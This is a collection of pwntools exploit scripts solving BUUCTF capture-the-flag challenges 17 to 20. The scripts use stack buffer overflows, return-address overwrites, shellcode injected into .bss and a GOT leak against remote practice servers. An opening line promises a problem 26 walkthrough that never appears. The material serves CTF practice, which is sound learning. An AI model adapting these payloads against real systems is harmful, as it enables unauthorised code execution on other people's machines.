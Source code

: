 重点讲解第26题：babyheap的解题方法。

# buu017-not_the_same_3dsctf_2016
```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25850)
elf = ELF('./pwn')

payload = cyclic(0x2d) + p32(elf.symbols['get_secret']) + p32(elf.symbols['write']) + p32(0xdeadbeef) + p32(1) + p32(0x80ECA2D) + p32(0x40)

io.sendline(payload)

io.interactive()
```
# buu018-ciscn_2019_n_5

```python
from pwn import *
from LibcSearcher import *
context.arch='amd64'
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29724)
elf = ELF('./pwn')

poprdi_ret = 0x400713
ret = 0x4004c9
bss = 0x601080
leave = 0x4006a9
io.sendlineafter(b'tell me your name', asm(shellcraft.amd64.sh()))

payload = cyclic(0x20) + p64(bss) + p64(bss)
io.sendlineafter(b'What do you want to say to me?\n', payload)

io.interactive()
```
# buu019-others_shellcode
连上就行
# buu020-ciscn_2019_ne_5
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25761)
elf = ELF('./pwn')

io.sendlineafter(b'Please input admin password:', b'administrator')

payload = cyclic(76) + p32(elf.plt['puts']) + p32(elf.symbols['main']) + p32(elf.got['printf'])

io.sendlineafter(b'0.Exit\n:', b'1')
io.sendlineafter(b'Please input new log info:', payload)
io.sendlineafter(b'0.Exit\n:', b'4')
```